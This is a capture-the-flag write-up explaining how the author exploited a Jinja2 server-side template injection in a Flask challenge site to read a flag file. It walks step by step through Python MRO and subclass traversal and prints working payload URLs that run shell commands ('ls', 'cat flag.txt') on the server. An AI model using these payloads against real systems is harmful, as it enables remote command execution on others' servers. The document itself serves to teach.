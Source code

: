 # Templated
In this web challenge, we are given a website and expected to find the flag by exploiting a simple mistake.

![0](0.png)

# TL;DR
- The website lets user to provide a Jinja template from parameters. With this vulnerability (Server side template injection, or SSTI), we can acquire the flag [1].
- To get the flag, you need to know about `Python's Method Resolution Order (MRO)`.

#### Keywords: `SSTI`, `Jinja`, `mro`

# How to get the flag?
When the challenge instance is launched, I got a website that says it is under construction. We can see that it is powered by `Flask/Jinja2`. Perhaps it is running python?
![1](1.png)

When I check the returned Request and Response headers, we can clearly say that the server is running `Werkzeug/1.0.1, Python 3.9.0`. I started to google about Werkzeug/1.0.1 vulnerabilities. But, I was only be able to find out vulnerabilities in older versions of Werkzeug [2].
![2](2.png)

I attempted to use some enumeration tools, such as `nikto`, `gobuster`, to scan vulnerabilities and existing directories, but I did not get anything, as the website was returning 200 response to every request.

Next, I googled about `Flask/Jinja2` vulnerabilities. A few matches from top results led me to find out a possibility of Server Side Template Injection vulnerability in Jinja2 [1]. In [1] the vulnerability example was based on a parameter. Because, I could not get any result from enumeration tools, I just tried to pass a simple jinja2 template, `{{1}}`, to the index url of the challenge.

Do you see what just happened? User provided jinja template is processed by the server, just like the exploit description from [1]. Okay but, can I execute some commands and get get the flag?
![3](3.png)

I immediately entered some bash commands to the url, like `{{ls}}`. Ofcourse, it did not work. Because, the process is running python interpreter. I went back again to carefully read the exploit description and the concepts about Python's method resolution order. Here are some references to better understand this [3,4]. The important part for me was that given a class I could use `mro` to get any class or modules from <class 'object'>.

I executed the following URLs until I got python modules like `os` or `subprocess`:
- integer class: `/{{ 1.__class__ }}`
- base classes of integer class `/{{ 1.__class__.__mro__}}`
- object class `/{{ 1.__class__.__mro__[1]}}`
- pointer to the method of object class's subclasses `/{{ 1.__class__.__mro__[1].__subclasses__ }}`
- List of subclasses (here I saw `subprocess.Popen`)  `/{{ 1.__class__.__mro__[1].__subclasses__() }}`
- Subprocess class (I found subprocess class's index by trial and error): `/{{ 1.__class__.__mro__[1].__subclasses__()[414] }}`
- Execute ls to find where is flag (it was in current working directory, *flag.txt*): `/{{ 1.__class__.__mro__[1].__subclasses__()[414]('ls',shell=True, stdout=-1).communicate()[0] }}`

Finally, to get the flag I sent a request with the following jinja template:
```
http://URL/{{ 1.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True, stdout=-1).communicate()[0] }}
```
And we got the flag.
![4](4.png)

# References
- [1] Jinja2 2.10 - 'from_string' Server Side Template Injection
[https://www.exploit-db.com/exploits/46386](https://www.exploit-db.com/exploits/46386)
- [2] [werkzeug vulnerabilities](https://snyk.io/vuln/pip:werkzeug)
- [3] [https://www.python.org/download/releases/2.3/mro/](https://www.python.org/download/releases/2.3/mro/)
- [4] [https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/)
